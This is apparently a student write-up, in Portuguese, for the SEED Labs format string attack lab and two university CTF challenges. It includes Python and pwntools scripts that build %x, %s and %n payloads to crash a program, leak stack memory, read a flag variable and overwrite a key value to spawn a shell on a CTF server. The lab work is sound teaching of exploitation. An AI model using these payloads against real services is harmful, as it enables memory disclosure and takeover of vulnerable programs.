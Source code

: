 # SeedLabs: Format String Attack
## Task 1

De modo a crashar o programa, usamos o seguinte comando:

```py
python3 -c "print('%d'*1000") | nc 10.9.0.5 9090
```

Isto funciona pois a função tentará aceder a muitos endereços, dos quais alguns serão restritos desencadeando um crash.

## Task 2

### Task 2.A

Nesta tarefa, foi utilizado um script que inicalmente escreve os bytes `0xABCD`, para podermos ter uma referência para onde os bytes do buffer começam, e depois é escrito um número variável de `%x`, tirando proveito do facto do facto de, quando o `printf` não recebe um parâmetro, as variáveis na stack serem utilizadas para preenchê-lo, incrementando automaticamente o seu endereço.

Utilizando `python3 task2A.py 64`, obtemos como output o conteúdo da stack, com o tamanho desse conteúdo igual ao número dado no argumento.

```py
import sys

def main():
    if(len(sys.argv) != 2):
        print("Error, size missing")
        return 1

    size = sys.argv[1]

    payload = ((b'\xCD\xAB') + b'%x'*int(size))
    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()
```

### Task 2.B

Esta task é semelhante à anterior, exceto o facto de ser necessário fornecer o endereço da variável que pretendemos ler, mover para a posição onde o endereço foi escrito e imprimir a string apontada para a qual ele aponta usando `%s`.

```py
def main():
    payload = ((b'\x08\x40\x0b\x08') + b'%x'*63 + b'%s')
    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()
```

Criando o payload e executando, conseguimos ler variável com sucesso.

## Task 3

### Task 3.A

De modo a escrever informação num certo endereço utilizando a vulnerabilidade de string format, precisamos de usar o `%n` format specifier, que essencialmente escreve o número de bytes escritos até ao momento num certo endereço.

Tendo isto em conta, escrevemos um script que começa por escrever o endereço que queremos mudar. De seguida, avança para a posição onde esse endereço foi escrito e finalmente imprime `%n`, que altera o valor para `4 + 63 = 67` (tamanho do endereço + deslocamento do buffer).

```py
def main():
    payload = ((b'\x68\x50\x0e\x08') + b'%x'*63 + b'%n')
    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()
```

### Task 3.B

Utilizando a mesma lógica da task anterior, adaptamos o nosso script de modo a que o número de bytes imprimidos até o momento fosse igual ao valor que pretendemos escrever no endereço target. Para alcançar isso, utilizamos o string formatter `%19980x`, que imprime o um valor com 19980 bytes, ou seja, o endereço alvo ficará com o valor `4 + 4*62 + 19980 = 20480 = 0x5000`. Também necessitamos de alterar o número de bytes lidos para 62 (menos 1 comparado com a task anterior), de modo a acomodar o `%19980x` que foi introduzido.

```py
target_addr = b'\x68\x50\x0e\x08'

def main():
    payload = (target_addr + b'%08x'*62 + b'%19980x' + b'%n')

    
    with open("badfile", "wb") as file:
        file.write(payload)

if __name__ == "__main__":
    main()  
```

# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 4004/4005

## Desafio 1

Começando por correr o `checksec`, é possível observar que os endereços são de 32 bit, a arquitetura do ficheiro é x86 (Arch), existe um canary a proteger o return address (Stack), a stack não tem permissão de execução e as posições do binário não estão randomizadas.

![Imagem 1](./images/lb6_img1.png)

- Qual é a linha do código onde a vulnerabilidade se encontra? 
  - A vulnerabilidade encontra-se na linha 27, `print(buffer)`.

- O que é que a vulnerabilidade permite fazer? 
  - A linha especificada tem uma vulnerabilidade, Format string injection, que permite-nos inserir format specifiers, através do input que será colocado no buffer, que serão interpretados pelo printf, permitindo leitura e escrita arbitária de memória.

- Qual é a funcionalidade que te permite obter a flag?
  - O exploit baseia-se no facto de, quando a função `printf` não recebe um parâmetro, as variáveis na pilha serem utilizadas para preenchê-lo, incrementando automaticamente o seu endereço.

Tal como o `checksec` indica, os endereços do programa são estáticos, pelo que, utilizando o gdb, descobrimos que o endereço de memória da variável onde se encontra a flag é `0x804c060`.


Assim, adaptamos um script para obter a flag do servidor.

```py
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

addr = '\x60\xc0\x04\x08'
payload = addr + '|' + '%s'

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

![Imagem 2](./images/lb6_img2.png)

## Desafio 2

Neste segundo desafio realizamos o mesmo procedimento do desafio anterior, com a diferença de que tivemos de planear cuidadosamente a string utilizada, visto ser necessário colocar o valor `0xbeef` na variável `key` de modo a abrir uma sessão bash.


O endereço do espaço de memória onde se encontra a variável key pode ser encontrado recorrendo ao gdb, de forma semelhante ao desafio anterior, e o seu valor é `0x804c034`.

![Imagem 3](./images/lb6_img3.png)

Para definir o valor correto da variável key, necessitamos de ler 48879 bytes seguidos de um `%n` de modo a escrever esse valor no endereço de memória especificado.

O conteúdo inicial do payload é irrelevante, de modo que foi utilizada a string `'AAAA'`. Este será lido pelo format specifier `%48871x`, permitindo assim manipular o número de bytes lidos, e posicionando o endereço da variável key de modo a ser escrito pelo format specifier `%n`.

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

# key -> 0x804c034 : precisamos colocar trocar o seu valor por 0xbeef (48879)

addr = '\x34\xc0\x04\x08'

payload = 'AAAA' + addr + '%48871x' + '%n'
# É escrito 'AAAA' (4 bytes), addr (4 bytes) e '%48871x' (48871 bytes)
# 4+4+48871 = 48879 = 0xbeef

p.recvuntil(b"here...")
p.sendline(payload)
```

Como é possível observar na seguinte imagem, foi obtido com sucesso acesso à shell, que nos permitiu descobrir facilmente a flag através dos comandos `ls` e `cat`.

![Imagem 4](./images/lb6_img4.png)
